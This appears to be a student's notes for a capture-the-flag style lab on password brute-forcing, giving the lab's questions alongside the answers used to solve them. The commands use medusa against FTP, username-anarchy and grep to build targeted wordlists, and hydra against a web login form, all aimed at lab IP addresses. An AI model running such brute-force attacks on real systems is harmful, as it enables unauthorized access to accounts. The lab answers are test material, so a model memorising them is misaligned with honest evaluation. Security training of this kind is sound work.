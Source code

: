 ```zsh
ssh sshuser@94.237.54.192 -p 39065
```

```zsh
medusa -f -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 64 -h 127.0.0.1
```

+ 2  After successfully brute-forcing the ssh session, and then logging into the ftp server on the target, what is the full flag found within flag.txt?
```zsh
ftp 127.0.0.1
```

# Custom Wordlists
#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.60.55:53041   

Life Left: 86 minute(s)

Cheat Sheet

+ 2  After successfully brute-forcing, and then logging into the target, what is the full flag you find?
```zsh
./username-anarchy Jane Smith > /tmp/jane_smith_usernames.txt
```

```zsh
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

```zsh
hydra -L jane_smith_usernames.txt -P jane-filtered.txt -f 94.237.60.55 -s 53041 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid" -t 64 -I
```

![](images/2.png)
